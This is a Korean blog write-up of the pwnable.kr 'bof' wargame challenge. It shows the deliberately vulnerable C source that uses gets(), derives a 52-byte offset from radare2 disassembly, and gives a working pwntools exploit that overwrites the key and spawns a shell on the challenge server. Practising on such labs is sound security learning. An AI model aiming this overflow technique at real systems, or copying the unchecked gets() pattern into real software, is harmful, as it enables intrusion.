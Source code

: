 ```yaml
---
title: (47) pwnable.kr bof 문제 풀이
date: 2024-03-12 +09:00
categories:
  - 포너블
tags:
  - [포너블, pwnable.kr]
---
```

{% raw %}
## 문제 설명
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

## 문제 풀이
이번 문제는 앞서 풀어본 문제와는 다르게 nc로 접속하는 방식입니다.  
따라서 첨부된 소스코드 부터 확인하겠습니다.
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
  char overflowme[32];
  printf("overflow me : ");
  gets(overflowme); // smash me!
  if(key == 0xcafebabe){
    system("/bin/sh");
  }
  else{
    printf("Nah..\n");
  }
}
int main(int argc, char* argv[]){
  func(0xdeadbeef);
  return 0;
}

```
`gets`로 `overflowme`라는 변수값을 받아오고 있습니다. `overflowme`와는 별개로, `key`가 `0xcafebabe`인 경우 `/bin/sh` 즉, 쉘을 얻을 수 있다고 합니다. 문제 이름에서도, 변수 이름에서도 알 수 있듯이 버퍼 오버플로우 취약점을 이용해 `key`를 변경하는 방식으로 문제를 풀어야 할 것 같습니다.  
그러기 위해선 어셈블리 수준으로 분석해 볼 필요가 있습니다.  
  
`radare2`를 이용해서 제공된 바이너리의 sym.func를 확인해 보았습니다.
![](https://kyuyeop.github.io/assets/img/post/47/1.png)

`call gets` 윗부분을 보면 `var_2ch`가 등장하는데, 이게 c코드에서 `overflowme`라는 변수에 해당한다는 것을 알 수 있습니다.  
가장 위쪽, `var_2ch`가 어떻게 할당되는지 보면 `ebp-0x2c`의 주소를 가지고 있습니다.  
  
또한 `cmp`에서 사용하고 있는 `arg_8h`의 경우에는 `0xcafebabe`와 같이 사용되고 있는 것으로 보아 함수의 인자로 사용되는 `key`라는 것을 알 수 있고, 그 주소는 `ebp+0x8`입니다.  
  
즉, `overflowme`와 `key`는 주소상 `0x2c+0x8(52)`만큼의 거리를 두고 떨어져 있다는 뜻입니다.  
만약 gets로 입력을 받을 때, 52바이트 이상의 무언가를 입력하게 되면 key값에 접근하여 값을 변경할 수 있게 됩니다.  

```python
from pwn import remote

p = remote('pwnable.kr', 9000)
p.sendline(b'a' * 52 + b'\xbe\xba\xfe\xca')
p.interactive()
```
pwntools를 위와 같이 코드를 만들어 주었습니다. 이상하게 pipe로 넘겨주려니까 제대로 안 넘어가는 건지 안되더라고요.  
52바이트의 더미값과 `0xcafebabe`를 리틀 엔디안 형식으로 입력해주도록 만들었습니다.  
이를 실행하면
![](https://kyuyeop.github.io/assets/img/post/47/2.png)
위와 같이 쉘을 얻을 수 있게 되고 `cat flag`로 flag를 얻을 수 있습니다.
{% endraw %}